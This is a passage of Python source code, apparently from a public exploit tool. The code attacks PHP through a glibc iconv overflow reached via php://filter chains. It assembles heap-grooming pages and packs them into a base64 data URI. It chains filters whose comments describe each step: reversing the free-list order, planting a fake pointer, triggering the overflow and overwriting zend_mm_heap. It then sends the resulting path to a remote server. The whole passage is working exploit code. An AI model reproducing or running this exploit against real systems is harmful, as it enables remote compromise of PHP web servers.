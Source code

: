 ~~~ python
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource) #b64(pages)
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
           
            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.L1.L1",
           
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
           
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
           
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
           
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()

        try:
            msg_print("Sending exploit...")
            print(f'PATH: {path}')

            self.remote.send_exploit(path)
        except (ConnectionError, ChunkedEncodingError):
            pass
       
        msg_print()
~~~